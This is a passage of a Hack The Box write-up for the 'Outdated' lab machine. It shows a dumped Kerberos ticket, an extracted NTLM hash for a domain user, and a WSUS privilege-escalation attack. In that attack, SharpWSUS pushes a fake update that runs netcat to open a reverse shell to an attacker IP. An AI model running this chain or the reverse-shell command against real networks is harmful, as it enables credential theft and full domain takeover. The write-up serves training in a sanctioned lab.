      7x54yUZeilpRSr9bRvYJJKfe2krrKLRMscQbji/EwN9fT9s45JRU0LDQfK5mTV0JQdw7MoL/fBbh9hcv
      4+XvzvT5vMi+CD+TIrXs+Gnvxx+iQ/VRQPW5eTcHD1EqctwrpF4olrcbXl2twd0lPMm94OFNGOzujFIn
      re6KPuSAaDDgyiDeX1stvT+tPO2kYkqjMu5qQxP5+D0NuJsEPlbqaFymDZnOJdCiEpBrw2WcUHNjO5F8
      PCEL2YEiDQtARXu0gG1zdTu3/uA0YUyFcKaWKMwia/2lnt3XB0GRoWifivy+BGeiQbVcuyPOXB1AsFUx
      Jrl0WyWsHJetkyOxNzQbJnhvc0f9whn4Etk/t71MEjdUivEYqgEPWptoiWPsNKn5DWhdFxa02rSqq3aj
      uXanKlebdZQgMFFIXTSovTwoFY4PAOpVyX1gMGxOrPbN2yWr2IFuqwXOK5FR0nyZjfewPYaXZ2gjP9qq
      V17kiO21MQeUcB5b9x/ZlEC5pL0N5ORoZiHHdt4MUdgTF/oOJ0pH7j7HVryUkfRIQtaobtuMrxl/YbFB
      /v9RI4h/sMvT+WLApXj4nQSr9wT6EIwgi/n+cSWpfE3arIFTY73c4o5Dt90AhYU1SmJNHgTEDUtVTw5b
      4bN6LuaZK651oQVofS1eq8KDLeedW+s54N1Dq48iNHEEND1Xcjus7oRXa/AvI2zR7ip9q8Fr+fs3Dndy
      i4YZt2bWwQpxBj4Az2vlp2kL953XyqLdhX7Oiuk9dP8QMHlpw4Bvbz/rLLinpIr7NR7YguaH2hsEXoti
      ci2SgAqWQGjg/kKRMEA59PSE/6XbA7eh14Gb8e8xaJOLSfZbTiBKEvTr6cnF4Lx/T4a2BP1JxWOlU43e
      E/yEJzz7j3m+k3ID1F4xGyDi2zr91sJu9n9X1SKh3ewrIXI6p2sjM/hJSpEQIOxBj2K//ep014JP81F7
      JYipVhA0Yqu+RKCYfvsud2lQuHquJ5cGIGV8V3g6LGV/gjpWlRmqjsjgnjFDCBHZf3jmlNwOqg5pUaXX
      x3FnlZSqk6f7tff5U/LuUhZe/Z/ve46+eS6noByxzaF6NUAI5Y7QHBSqmnpHcMNaVLQNL0QSoHgakbnZ
      XbxaiBktNsOf0exm00zWxxJl9aPmvk1Zy/5IeKOYnsTM+WGuv48etOpnqhyfo0Xxb2luKVZ6A2gTtnA5
      ZXfKAJRb/+LlQUvECq/qQKSjgdYwgdOgAwIBAKKBywSByH2BxTCBwqCBvzCBvDCBuaAbMBmgAwIBF6ES
      BBCAoXfRXH9gKLZy6Sm5za7LoQ4bDE9VVERBVEVELkhUQqIVMBOgAwIBAaEMMAobCHNmbG93ZXJzowcD
      BQBA4QAApREYDzIwMjMwOTA2MDEyNzAwWqYRGA8yMDIzMDkwNjExMjcwMFqnERgPMjAyMzA5MTMwMTI3
      MDBaqA4bDE9VVERBVEVELkhUQqkhMB+gAwIBAqEYMBYbBmtyYnRndBsMb3V0ZGF0ZWQuaHRi

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  9/5/2023 6:27:00 PM
  EndTime                  :  9/6/2023 4:27:00 AM
  RenewTill                :  9/12/2023 6:27:00 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  gKF30Vx/YCi2cukpuc2uyw==
  ASREP (key)              :  A9206537D5A0C9F54CC0664ADE22E267

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5

```

- Now we have `NTLM` hash for `sflowers`
  - `sflowers:1FCDB1F6015DCB318CC77BB2BDA14DB5`
  - We saw from `bloodhound` that `sflowers` is a member of `REMOTE MANAGEMENT USERS`, so we can `winrm`
    - We could also `net user sflowers /domain` to get domain group information


## Root
- We know `sflowers` is a member of `WSUS ADMINISTRATORS`
  - So let's check `registry`
    - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#wsus
  - We see the `http://wsus.outdated.htb:8530`
  - And it's the box itself
```
*Evil-WinRM* PS C:\Users\sflowers\Documents> Get-ItemProperty HKLM:\software\policies\microsoft\windows\WindowsUpdate


SetActiveHours                               : 1
ActiveHoursStart                             : 0
ActiveHoursEnd                               : 23
AcceptTrustedPublisherCerts                  : 1
ExcludeWUDriversInQualityUpdate              : 1
DoNotConnectToWindowsUpdateInternetLocations : 1
WUServer                                     : http://wsus.outdated.htb:8530
WUStatusServer                               : http://wsus.outdated.htb:8530
UpdateServiceUrlAlternate                    :
PSPath                                       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\policies\microsoft\windows\WindowsUpdate
PSParentPath                                 : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\policies\microsoft\windows
PSChildName                                  : WindowsUpdate
PSDrive                                      : HKLM
PSProvider                                   : Microsoft.PowerShell.Core\Registry
```
```
*Evil-WinRM* PS C:\Users\sflowers\Documents> nslookup wsus.outdated.htb
Server:  localhost
Address:  127.0.0.1

Name:    dc.outdated.htb
Addresses:  dead:beef::ccdc:5087:ac10:8c9f
          dead:beef::1a8
          10.10.11.175
          172.16.20.1
Aliases:  wsus.outdated.htb
```

- There is a nice [post](https://labs.nettitude.com/blog/introducing-sharpwsus/) regarding what we can do with `WSUS`
  - https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/wsus-spoofing
  - [SharpWSUS](https://github.com/nettitude/SharpWSUS)
    - Or [Precompiled one](https://github.com/h4rithd/PrecompiledBinaries/blob/main/SharpWSUS/SharpWSUS.exe)
  - I'll upload `SharpWSUS` and `nc` to box
  - According to post above: `The payload must be a Microsoft signed binary and must point to a location on disk for the WSUS server to that binary`
    - The post shows us the way to bypass it using `psexec` which I also have to download to box
      - https://learn.microsoft.com/en-us/sysinternals/downloads/psexec
  - So now we can perform the `attack`
```
*Evil-WinRM* PS C:\Users\sflowers\Documents> ls 


    Directory: C:\Users\sflowers\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/5/2023   6:54 PM          45272 nc.exe
-a----         9/5/2023   6:59 PM         833472 psexec.exe
-a----         9/5/2023   6:51 PM          49152 SharpWSUS.exe
```
```
```

- So let's create a patch

```
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe create /payload:"C:\Users\sflowers\Documents\psexec.exe" /args:" -accepteula -s -d C:\Users\sflowers\Documents\nc.exe -e cmd.exe 10.10.16.5 7777" /title:"System Shell Update"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: psexec.exe
[*] Payload Path: C:\Users\sflowers\Documents\psexec.exe
[*] Arguments:  -accepteula -s -d C:\Users\sflowers\Documents\nc.exe -e cmd.exe 10.10.16.5 7777
[*] Arguments (HTML Encoded):  -accepteula -s -d C:\Users\sflowers\Documents\nc.exe -e cmd.exe 10.10.16.5 7777

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent

ImportUpdate
Update Revision ID: 30
PrepareXMLtoClient
InjectURL2Download
DeploymentRevision
PrepareBundle
PrepareBundle Revision ID: 31
PrepareXMLBundletoClient
DeploymentRevision

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:4277d916-4059-4390-bd53-9ca182a9fab6 /computername:Target.FQDN /groupname:"Group Name"

[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:4277d916-4059-4390-bd53-9ca182a9fab6 /computername:Target.FQDN

[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:4277d916-4059-4390-bd53-9ca182a9fab6 /computername:Target.FQDN /groupname:"Group Name"

[*] Create complete
```
- Now we approve it
```
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe approve /updateid:4277d916-4059-4390-bd53-9ca182a9fab6 /computername:dc.outdated.htb /groupname:"System Shell Update"

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Approve Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1
Group Exists = False
Group Created: System Shell Update
Added Computer To Group
Approved Update

[*] Approve complete


```
- We can check the status
  - We have to wait for several minutes for it to complete
```
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe check /updateid:4277d916-4059-4390-bd53-9ca182a9fab6 /computername:dc.outdated.htb

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Check Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1

[*] Update is not installed

[*] Check complete

```
- If we check after few minutes, we see it's installed
  - And we have our shell
```
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe check /updateid:4277d916-4059-4390-bd53-9ca182a9fab6 /computername:dc.outdated.htb

 ____  _                   __        ______  _   _ ____
/ ___|| |__   __ _ _ __ _ _\ \      / / ___|| | | / ___|
\___ \| '_ \ / _` | '__| '_ \ \ /\ / /\___ \| | | \___ \
 ___) | | | | (_| | |  | |_) \ V  V /  ___) | |_| |___) |
|____/|_| |_|\__,_|_|  | .__/ \_/\_/  |____/ \___/|____/
                       |_|
           Phil Keeble @ Nettitude Red Team

[*] Action: Check Update

Targeting dc.outdated.htb
TargetComputer, ComputerID, TargetID
------------------------------------
dc.outdated.htb, bd6d57d0-5e6f-4e74-a789-35c8955299e1, 1

[*] Update is installed

[*] Check complete
```



- There [skipped steps](https://0xdf.gitlab.io/2022/12/10/htb-outdated.html#beyond-root---skipped-steps) explained by `0xdf`